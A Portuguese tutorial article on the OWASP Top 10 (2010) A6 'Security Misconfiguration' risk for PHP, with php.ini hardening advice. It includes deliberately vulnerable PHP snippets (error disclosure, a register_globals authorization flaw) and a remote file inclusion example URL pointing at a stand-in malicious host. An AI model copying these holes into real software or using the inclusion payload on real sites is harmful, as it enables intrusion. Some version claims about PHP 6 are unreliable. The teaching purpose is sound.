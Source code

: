 ```yaml
---
title:       A6 Security Misconfiguration
description: Artigo sobre a vulnerabilidade Configuração Incorreta de Segurança, sexto item da lista TOP 10 da WOASP
meta:        (OWASP top ten 2010)
capitulo:    seginfo-topten2010
ordem:       6
---
```


Configurações incorretas de segurança podem ocorrer na aplicação web, no servidor web, no módulo do PHP, no framework,
em bancos de dados e em todo componente necessário para que a aplicação funcione corretamente. Quando atualizações não
são instaladas, quando os softwares não são devidamente configurados, quando usuários e senhas que ativam o software são
mantidas, temos então, a ocorrência da vulnerabilidade de Configuração Incorreta de Segurança. Ela deve ser evitada com
os esforços conjuntos de programadores e administradores uma vez que não diz respeitos à apenas o código fonte da aplicação.

A exploração é considerada fácil pois o atacante utiliza-se, por exemplo, de contas criadas por padrão na instalação de
sistemas. O impacto é moderado pois, uma vez que esta vulnerabilidade é explorada, pode comprometer por completo todo
o sistema, a tabela abaixo sintetiza a classificação do risco.

![Mapeamento de risco Configuração Incorreta de Segurança](tabela-risco.png "Mapeamento de risco Configuração Incorreta de Segurança")


Exemplo de aplicação vulnerável
---

Suponha que a aplicação utilize framework's como [CideIgniter](http://www.codeigniter.com/) ou
[Cake](http://cakephp.org/), por exemplo. Vulnerabilidades XSS são encontradas e uma atualização é
lançada para corrigir o problema. Até que o framework não seja atualizado, atacantes poderão explorar as
vulnerabilidades da aplicação.

Outro exemplo seria quando os dados e os componentes padrões necessários para a instalação de uma aplicação, banco de
dados ou componente são instalados automaticamente e não são removidos. Um atacante poderá descobrir as páginas de
administração no servidor e autenticar-se utilizando o usuário e senha padrão da instalação e tomar controle sobre a
aplicação e/ou servidor.


Mais um exemplo seria quando a listagem dos diretórios não fora desativada. Um atacante, percebendo essa vulnerabilidade,
poderá listar os diretórios da aplicação e encontrar outras vulnerabilidades.

Ainda como exemplo, a configuração e/ou codificação de uma aplicação expõe, indevidamente, os erros ou outras informações
sobre o sistema ou o servidor. O atacante utilizará essa informação para encontrar e explorar vulnerabilidades potenciais.
O código 6.1 ilustra a exposição desnecessária de erros. Na linha 02 é feita a tentativa de conexão com o banco de dados
 e o resultado é armazena na variável `$link`. A linha 03 testa a variável `$link`, caso o valor seja `false` o script
executa a linha 04 que, por sua vez, interrompe a execução do script através da função `die()`. Esta função aceita um
parâmetro do tipo string e exibe esse valor no navegador. No exemplo será enviado ao navegador o resultado da função
`mysql_error()`.

```php
<?php
$link = mysql_connect('localhost', 'mysql_user', 'mysql_password');
if (!$link) {
    die( mysql_error() );
}
?>
```

Importante notar que a não utilização da função `die()` não sanaria o problema por completo. Se o módulo de PHP estiver
configurado para exibir erros, uma mensagem como a mostrada no código abaixo a seguir seria exibida, entregando, dessa
forma, informações valiosas para o atacante como o servidor e o usuário.

    Warning mysql_connetc()[function.mysql-connect]: Access denied for user 'usuario'@'192.168.2.101'
    (using password: YES) in /www/html/appweb/admin.php on line 7


Prevenção
---

Para garantir a prevenção da aplicação web contra esta vulnerabilidades é preciso entender e compreender as configurações
do módulo PHP. O capítulo de configurações do projeto Guia de Desenvolvimento da OWASP traz recomendações específicas
para cada configuração do módulo PHP (OWASP Development Guide: Chapter on Configuration, 2010).

A diretiva __register_globals__ vem com valor padrão `off` (desabilitado) desde a versão 4.2.5. Ela tornou-se obsoleta a
partir da versão 5.3.0 e foi removida na versão 6.0.0. Essa diretiva, quando habilitada, cria variáveis de vários tipos,
inclusive variáveis oriundas de formulários HTML. Isso significa que é possível usar variáveis sem saber de onde elas
vieram. Variáveis internas que são definidas no script se misturam com dados enviados pelos usuários. Segundo o manual
do PHP, a diretiva em si não é insegura, o uso incorreto dela é que é. Conforme o código abaixo, na linha 02 o resultado
da função `usuario_autenticado()` é testado. Se verdadeiro é atribuído `true` a variável `$autorizado`. Na linha 06 é
testado o valor da variável `$autorizado`, se verdadeiro o script segue sua execução normalmente, acreditando-se que o
usuário foi realmente autenticado.

```php
<?php
if (  usuario_autenticado()  ) {
    $autorizado = true;
}

if ($autorizado) {
    include "/dados/autamentes/sensiveis.php";
}
?>
```

Estando o valor da diretiva __register_globals__ igual a `on` (habilitada) a variável `$autorizado` seria facilmente
manipulada. Alterando o valor para `off` o código funcionário corretamente (isento da vulnerabilidade). Outra forma de
concertar o código seria inicializar a variável antes do uso, neste caso o código funcionaria independentemente do
estado de register_globals.

O __safe_mode__ é um conjunto de restrições de funções e pode realmente aumentar a segurança em um ambiente de servidor
compartilhado. Ela foi removida na versão 6.0.0 por ser considerado, arquiteturalmente, incorreto resolver esse
problema (servidores compartilhados) no nível de módulo do PHP.

A diretiva __disable_functions__ permite desabilitar funções internas do PHP. Ela recebe uma lista de nomes de funções
separadas por virgula. Ela não é afetada pela diretiva `safe_mode` e deve ser configurada diretamente no arquivo `php.ini`
não sendo possível efetuar a configuração no arquivo `httpd.conf`.


A diretiva __open_basedir__ limita os arquivos que podem ser abertos ao diretório especificado e seus subdiretórios,
incluindo o arquivo em si. Essa diretiva não é afetada pelo estado do modo seguro (safe mode), esteja este habilitada
ou não.

A diretiva __allow_url_fopen__ ativa o dispositivo URL-aware fopen wrappers que permite o acesso a objetos URL como
arquivos. Se esta diretiva estivar habilitada o atacante poderá executar arquivos externos como a demonstra o código
abaixo.

    http://www.appvulneravel.com/index.php?pg=http://sitemalicioso.com/atacar.php

Com a diretiva __error_reporting__ é possível determinar quais os erros, mensagens e avisos o PHP registrará. A
recomendação é `E_ALL`, dessa forma, todos os erros e mensagens de alerta (exceto os de nível `E_SRICT`) serão reportados.

A diretiva __log_errors__ refere-se ao nome do arquivo onde os erros do script serão logados.


A diretiva __display_errors__ determina se os erros serão ou não exibidos em tempo de execução. A recomendação é `off`
(desabilitado) para ambiente de produção e `on` (habilitado) para ambiente de desenvolvimento.

A diretiva __magic_quotes_gpc__ define o estado para as aspas mágicas para operações do tipo `GPC` (get, post e cookie).
Quando as aspas mágicas estiverem em `on`, todas `'` (aspas simples), `"` (aspas duplas), `\` (barras invertidas) e `NULL's`
são codificados (escapados) com uma barra invertida automaticamente. A recomendação da OWASP é que seu valor seja `on`
(habilitado), porém esta função está obsoleta na versão 5.3.0 e foi removida da versão 6.0.

A diretiva __post_max_size__ determina o valor máximo de dados que poderá ser enviado para o servidor. Deve ser mantido
o valor mínimo. Por padrão é `8mb`.

A diretiva __upload_max_filesize__ define o tamanho máximo de um arquivo enviado, medido em bytes, deve ser mantido o
valor mínimo.

A diretiva __memory_limit__ configura o tamanho máximo de memória utilizada por um script. Isto evita, por exemplo, que
 um script malicioso consuma toda memória disponível em um servidor.


